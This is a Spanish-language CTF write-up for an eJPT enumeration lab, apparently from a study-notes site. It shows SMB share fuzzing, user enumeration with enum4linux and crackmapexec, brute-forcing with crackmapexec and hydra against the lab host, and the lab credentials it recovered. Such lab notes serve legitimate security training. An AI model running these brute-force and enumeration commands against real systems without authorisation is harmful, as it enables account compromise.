

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/assessment-methodologies/03-enumeration-ctf-1/index.html · generator: mkdocs

# Enumeration CTF 1

- FLAG1

Nos dan una wordlists de directorios compartidos */root/Desktop/wordlists/shares.txt*
Como no podemos conectarnos a ningún recurso de los que aparecen en el SMB expuesto vamos a intentar fuzzear recursos dentro del servidor
- Montamos un script

![](../../../assets/img/Pasted_image_20260909174750.png)

Funciona para *pubfiles*

![](../../../assets/img/Pasted_image_20260909174849.png)

- FLAG2

Se nos dice que uno de los usuarios de samba tiene una mala contraseña (débil), su recurso compartido privado tiene el mismo nombre que su usuario

Vamos a enumerar usuarios en la máquina linux
```bash
enum4linux target.ine.local
```

![](../../../assets/img/Pasted_image_20260909181334.png)

josh bob nancy alice

Tendremos que  usar fuerza bruta para comprobar los recursos /target.ine.local/x con el usuario x
```bash
smbclient //target.ine.local/usuario -U usuario
```

Vamos a usar **crackmapexec**
- Podremos enumerar usuarios de la misma forma
```bash
crackmapexec smb target.ine.local --users
```

![](../../../assets/img/Pasted_image_20260909182142.png)

Guardamos los usuarios
```bash
crackmapexec smb target.ine.local --users | grep 'ine.local\\' | awk '{print $2}' FS='\\' > samba_users.txt
```

Ahora bruteforcearemos los usuarios encontrados con
```bash
crackmapexec smb target.ine.local -u samba_users.txt -p unix_passwords.txt
```

![](../../../assets/img/Pasted_image_20260909183730.png)

josh:purple

```bash
smbclient //target.ini.local/josh -U josh
```

purple

![](../../../assets/img/Pasted_image_20260909184033.png)

- FLAG3

Se nos da una pista en la flag anterior

![](../../../assets/img/Pasted_image_20260909184155.png)

```bash
ftp target.ine.local -p 5554
```

**ashley**, **alice** and **amanda** to change their weak passwords immediately

![](../../../assets/img/Pasted_image_20260909184529.png)

Intentaremos bruteforcear la contraseña de alguno de los usuarios con la wordlist */unix_passwords.txt* dada
```bash
hydra -L ftp_users.txt -P unix_passwords.txt -s5554 ssh://target.ine.local -V -f
```

![](../../../assets/img/Pasted_image_20260909185934.png)

alice:pretty
